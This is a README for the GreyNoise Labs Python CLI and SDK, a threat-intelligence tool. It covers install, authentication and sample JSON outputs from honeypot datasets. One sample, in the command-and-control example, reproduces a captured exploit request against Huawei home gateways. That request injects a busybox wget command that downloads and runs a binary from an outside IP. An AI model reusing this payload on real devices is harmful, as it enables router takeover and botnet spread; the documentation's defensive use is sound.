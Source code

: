 ==========================================
Python GreyNoise Labs GraphQL Client & SDK
==========================================

.. image:: https://img.shields.io/badge/License-MIT-yellow.svg
    :target: https://opensource.org/licenses/MIT

This package provides a CLI and SDK to the `GreyNoise Labs API`_ service.

.. _GreyNoise Labs API: https://api.labs.greynoise.io/

The GreyNoise Labs API provides access to the GreyNoise sensor datasets,
including the raw sensor data, contextual metadata, and rapid prototyping utilities from the GreyNoise Labs team.

Please make sure you're always using the latest version of the CLI. This is an experimental service, older versions
of the CLI may not work as expected and the team does not gurantee semantic versioning with non-breaking changes. 
If you're experiencing an error, always attempt to update to the latest version first. 

You can update the CLI with ``python3 -m pip install greynoiselabs --upgrade``.

You can read more about the team and their work at `GreyNoise Labs`_

.. _GreyNoise Labs: https://www.labs.greynoise.io

Documentation
=============
Documentation is available here: `Documentation`_

.. _Documentation: https://api.labs.greynoise.io/1/docs

CLI Install
===========
1. Run ``python3 -m pip install greynoiselabs``
2. Run ``greynoiselabs init`` to authenticate with Auth0 and save credentials for future use.
3. (Optional) It is recommended to install `jq` to make the CLI output more readable. 
   You can install it with ``brew install jq`` on macOS or ``apt-get install jq`` on Ubuntu.

..  code-block:: bash

    You are not authenticated, would you like to do this now? [y/N]: y
    Device code successful
    1. Please browse to:  https://greynoise2.auth0.com/activate?user_code=ABCD-EFGH
    2. Verify the code matches:  ABCD-EFGH
    Please click the link above and follow the instructions...
    Please click the link above and follow the instructions...
    Please click the link above and follow the instructions...
    Token saved to /Users/user/Library/Application Support/greynoiselabs/0.1.19/token.json.
    Authentication successful
    Aborted.

Autocomplete
============
``greynoiselabs`` uses autocomplete by default. You can start typing a command like ``greynoiselabs pc`` and then hit tab twice. 

If you're using ZSH as your shell, you may need to add ``compinit -D`` to the end of your ``~/.zshrc`` file. 


CLI Quick Start
===============
- . To show usage just run ``greynoiselabs`` and you should see this output.

.. image:: https://github-production-user-asset-6210df.s3.amazonaws.com/30487781/256922968-bbed72e3-c973-4398-86d8-c4383ffa0283.png

-  ``greynoiselabs knocks --help`` to show command specific help like below.

.. image:: https://github-production-user-asset-6210df.s3.amazonaws.com/30487781/256923019-432213b0-6a10-4283-bc8e-2365368c977a.png

- Lets look at the Labs Command and Control server dataset.
  Run: ``greynoiselabs c2s | jq``
  
  Here we can see results that suggest this is a potential C2 because GreyNoise observed an HTTP 
  request that contained a nested wget command out to the 185[.]17[.]0[.]197 IP. 

..  code-block:: json

    {
      "source_ip": "210.103.85.34",
      "hits": 271,
      "pervasiveness": 11,
      "c2_ips": [
        "185.17.0.197"
      ],
      "c2_domains": [],
      "payload": "POST /ctrlt/DeviceUpgrade_1 HTTP/1.1\r\nContent-Length: 430\r\nConnection: keep-alive\r\nAccept: */*\r\nAuthorization: Digest username=\"dslf-config\", realm=\"HuaweiHomeGateway\", nonce=\"88645cefb1f9ede0e336e3569d75ee30\", uri=\"/ctrlt/DeviceUpgrade_1\", response=\"3612f843a42db38f48f59d2a3597e19c\", algorithm=\"MD5\", qop=\"auth\", nc=00000001, cnonce=\"248d1a2560100669\"\r\n\r\n<?xml version=\"1.0\" ?><s:Envelope xmlns:s=\"http://schemas.xmlsoap.org/soap/envelope/\" s:encodingStyle=\"http://schemas.xmlsoap.org/soap/encoding/\"><s:Body><u:Upgrade xmlns:u=\"urn:schemas-upnp-org:service:WANPPPConnection:1\"><NewStatusURL>$(/bin/busybox wget -g 185.17.0.197 -l /tmp/testin -r /.oDan2/lock.mips; /bin/busybox chmod 777 /tmp/testin; /tmp/testin hw.selfrep)</NewStatusURL><NewDownloadURL>$(echo HUAWEIUPNP)</NewDownloadURL></u:Upgrade></s:Body></s:Envelope>\r\n\r\n"
    }

- Lets take a look at the Labs scan-back dataset a.k.a. "knockknock".
  Run: ``greynoiselabs knocks | jq``
    
  Here we can see that GreyNoise scanned an IP back that was observed scanning GreyNoise sensors and contained the HTTP title NetSurveillance WEB, likely a know IP camera DVR 
  with CVE-2017-16725.

..  code-block:: json

    {
      "source_ip": "36.70.32.117",
      "headers": "{\"Content-Type\":[\"text/html\"],\"Expires\":[\"0\"],\"Server\":[\"uc-httpd 1.0.0\"]}",
      "apps": "[{\"app_name\":\"Apache HTTP Server\",\"version\":\"\"}]",
      "emails": [],
      "favicon_mmh3_128": "Sgqu+Vngs9hrQOzD8luitA==",
      "favicon_mmh3_32": -533084183,
      "ips": [
        "10.2.4.88",
        "10.2.2.88"
      ],
      "knock_port": 80,
      "jarm": "00000000000000000000000000000000000000000000000000000000000000",
      "last_seen": "2023-07-21T11:00:06Z",
      "last_crawled": "2023-07-22T00:14:27Z",
      "links": [],
      "title": "NETSurveillance WEB",
      "tor_exit": false
    }

- Lets take a look at IPs that are commonly searched in GreyNoise datasets.  
  Run: ``greynoiselabs popular-ips | jq``

  Here we can see that 143.244.50.173 has been searched 916 times by 95 different GreyNoise users and 
  was last seen on 2023-07-27T23:59:11Z by GreyNoise sensors and last requested on 2023-07-27T23:55:17Z.

..  code-block:: json

    {
      "ip": "143.244.50.173",
      "request_count": 916,
      "users_count": 95,
      "last_requested": "2023-07-27T23:55:17Z",
      "noise": true,
      "last_seen": "2023-07-27T23:59:11Z"
    }

- Lets take a look at IPs making the most noise.
  Run: ``greynoiselabs noise-rank | jq``

  Here we can see that 167.94.138.35 is very pervasive throughout countries and sensors, is generating a 
  significant amount of traffic, and is targeting a large number of ports. However, the number of distinct 
  payloads it is generating falls in the middle compared with our IPs observed by GreyNoise. 

..  code-block:: json

    {
      "ip": "167.94.138.35",
      "noise_score": 89,
      "country_pervasiveness": "very high",
      "payload_diversity": "med",
      "port_diversity": "very high",
      "request_rate": "high",
      "sensor_pervasiveness": "very high"
    }

- Lets use some simple human language to search GreyNoise datasets.
  Run: ``greynoiselabs gengnql "Show malicious results that are targeting ukraine from russia"``
  
  Here we can see that the CLI is able to parse the human language and generate a set of GNQL queries that you may not have thought of.
  
  Results will differ for `gengnql` on subsequent runs as this is using an GPT prompt.

..  code-block:: bash

    classification:malicious AND metadata.country:Russia AND destination_country:Ukraine
    metadata.country:Russia AND destination_country:Ukraine AND classification:malicious
    metadata.country_code:RU AND destination_country_code:UA AND classification:malicious
    classification:malicious AND metadata.country_code:RU AND destination_country_code:UA
    destination_country:Ukraine AND metadata.country:Russia AND classification:malicious

- Lets take a PCAP and pivot on it to see what interesting artifacts we can extract from it to search in 3rd party tools and datasets. 
  Run: ``greynoiselabs pcap pivot sample.pcap | jq``

  Here we can see that the CLI is able to parse the PCAP and extract the number of requests sent to a port, and the HTTP paths and User-Agents that were used.

.. code-block:: json 

   {
    "first_seen": "2023-08-29T19:14:06.88876Z",
    "ip": "84.54.51.99",
    "last_seen": "2023-08-29T19:14:07.034411Z",
    "user_agents": [],
    "port_counts": [
      {
        "count": 5,
        "port": "80/TCP"
      }
    ],
    "paths": [
      "/boaform/admin/formLogin"
    ],
    "ja3": [],
    "hassh": [],
    "hostnames": []
  }

- Lets take a PCAP and convert it to a series of GNQL queries that can be used to search GreyNoise datasets.
  Run: ``greynoiselabs pcap gnql sample.pcap | jq``

  Here you can see that we were able to extract 11 SSH Hassh fingerprints, 1 HTTPS JA3 fingerprint, and 15 different RNDS hostnames that were then converted into GNQL queries. 

.. code-block:: json
 
  {
    "type": "raw_data.hassh.fingerprint",
    "urls": [
      "https://viz.greynoise.io/query?gnql=raw_data.hassh.fingerprint:4e066189c3bbeec38c99b1855113733a%20OR%20raw_data.hassh.fingerprint:98f63c4d9c87edbd97ed4747fa031019%20OR%20raw_data.hassh.fingerprint:92674389fa1e47a27ddd8d9b63ecd42b%20OR%20raw_data.hassh.fingerprint:2aec6b44b06bec95d73f66b5d30cb69a%20OR%20raw_data.hassh.fingerprint:acaa53e0a7d7ac7d1255103f37901306%20OR%20raw_data.hassh.fingerprint:9d31b8e6c87f893d077ca6526f7c710b%20OR%20raw_data.hassh.fingerprint:873a5fb5fedc2d4f8638ebde4abc6cfc%20OR%20raw_data.hassh.fingerprint:7216c7c473918b4f83d1139b3c70dbf9%20OR%20raw_data.hassh.fingerprint:1df281da760a0c16d115179a9ea5957c%20OR%20raw_data.hassh.fingerprint:dd9bcf093c355da7000132131cb36fd0%20OR%20raw_data.hassh.fingerprint:ec7378c1a92f5a8dde7e8b7a1ddf33d1&utm_medium=labs_blueprint&utm_source=pivot"
    ]
  }
  {
    "type": "raw_data.ja3.fingerprint",
    "urls": [
      "https://viz.greynoise.io/query?gnql=raw_data.ja3.fingerprint:674a73e1c587a5355cb37e25e6bebe48&utm_medium=labs_blueprint&utm_source=pivot"
    ]
  }
  {
    "type": "metadata.rdns",
    "urls": [
      "https://viz.greynoise.io/query?gnql=metadata.rdns:ip.parrotdns.com%20OR%20metadata.rdns:com%20OR%20metadata.rdns:03914d09.asertdnsresearch.com%20OR%20metadata.rdns:59854089.round2023-08-30.odns.m.dnsscan.top%20OR%20metadata.rdns:VERSION.BIND%20OR%20metadata.rdns:03914d09.example.com%20OR%20metadata.rdns:tstng.net%20OR%20metadata.rdns:www.stage%20OR%20metadata.rdns:mz.gov.pl%20OR%20metadata.rdns:version.bind%20OR%20metadata.rdns:www.cybergreen.net%20OR%20metadata.rdns:www.google.com%20OR%20metadata.rdns:example.com%20OR%20metadata.rdns:dnsscan.shadowserver.org%20OR%20metadata.rdns:sl&utm_medium=labs_blueprint&utm_source=pivot"
    ]
  }

CLI Advanced Usage
==================
Show the most popular IPs that are searched at GreyNoise but not observed by our sensors
1. ``greynoiselabs popular-ips | jq '. | select(.noise == false)' | less``

Group the ip's hitting GreyNoise sensors by their HTTP page title
2. ``greynoiselabs knocks | jq -s 'group_by(.title) | map({title: .[0].title, agg: map(.source_ip) })'``

Show distinct HTTP web paths that were crawled by a User-Agent
3. ``greynoiselabs http-requests --user-agent 'zgrab' | jq '.path' | uniq``

Filter payloads by protocol
4. ``greynoiselabs payloads --protocol TCP``


SDK Quick Start
===============
**Install the library**:

``python3 -m pip install greynoiselabs`` or ``make install`` when in the root directory of the repository.

Example SDK Code

You can authenticate to the Labs API and obtain a copy of your token there 
or with the CLI after running ``greynoiselabs init``

..  code-block:: python

    import os
    import asyncio
    from greynoiselabs.client import Client

    client = Client("https://api.labs.greynoise.io/1/query",
                    {"Authorization": f"Bearer {os.environ['AUTH_TOKEN']}"})

    response = asyncio.run(client.top_knocks(ip="221.144.229.187"))
    print(response)
